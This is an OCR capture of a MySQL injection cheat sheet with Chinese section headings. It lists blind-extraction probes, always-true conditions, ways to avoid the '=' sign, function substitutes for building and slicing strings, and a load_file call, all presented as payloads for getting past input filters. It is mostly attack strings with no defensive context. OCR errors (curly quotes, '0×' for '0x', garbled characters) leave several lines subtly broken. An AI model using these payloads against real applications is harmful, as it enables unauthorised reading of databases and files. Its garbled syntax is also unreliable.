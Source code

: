 	' and substr(data,1,1) = 'a'#
	' and hex(substr(data,1,1)) = 61#
	' and ascii(substr(data,1,1)) = 97#
	' and ord(substr(data,1,1)) = 97#
	' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
	#别名
	select pass as alias from users
	select pass`alias alias`from users
	#字型
	‘ or true = ’1 # or 1=1
	‘ or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
	‘ or ’1 # or true
	#操作符字型
	select * from users where ‘a’='b’='c’
	select * from users where (‘a’='b’)=’c’
	select * from users where (false)=’c’
	#认真绕过‘=’
	select * from users where name = ”=”
	select * from users where false = ”
	select * from users where 0 = 0
	select * from users where true#函数过滤器ascii (97)
	load_file/*foo*/(0×616263)
	#用函数构建字符串
	‘abc’ = unhex(616263)
	‘abc’ = char(97,98,99)
	hex(‘a’) = 61
	ascii(‘a’) = 97
	ord(‘a’) = 97
	‘ABC’ = concat(conv(10,10,36),conv(11,10,36),conv(12,10,36))
	#特殊字符
	aes_encrypt(1,12) // 4鏷眥"^z譎é蒃a
	des_encrypt(1,2) // 侴Ò/镏k
	@@ft_boolean_syntax // + -><()~*:""&|
	@@date_format // %Y-%m-%d
	@@innodb_log_group_home_dir // .\
	@@new: 0
	@@log_bin: 1
	#提取子字符串substr(‘abc’,1,1) = ‘a’
	substr(‘abc’ from 1 for 1) = ‘a’
	substring(‘abc’,1,1) = ‘a’
	substring(‘abc’ from 1 for 1) = ‘a’
	mid(‘abc’,1,1) = ‘a’
	mid(‘abc’ from 1 for 1) = ‘a’
	lpad(‘abc’,1,space(1)) = ‘a’
	rpad(‘abc’,1,space(1)) = ‘a’
	left(‘abc’,1) = ‘a’
	reverse(right(reverse(‘abc’),1)) = ‘a’
	insert(insert(‘abc’,1,0,space(0)),2,222,space(0)) = ‘a’
	space(0) = trim(version()from(version()))
	#搜索子字符串
	locate(‘a’,'abc’)
	position(‘a’,'abc’)
	position(‘a’ IN ‘abc’)
	instr(‘abc’,'a’)
	substring_index(‘ab’,'b’,1)
	#分割字符串
	length(trim(leading ‘a’ FROM ‘abc’))
	length(replace(‘abc’, ‘a’, ”))
	#比较字符串
	strcmp(‘a’,'a’)
	mod(‘a’,'a’)
	find_in_set(‘a’,'a’)
	field(‘a’,'a’)
	count(concat(‘a’,'a’))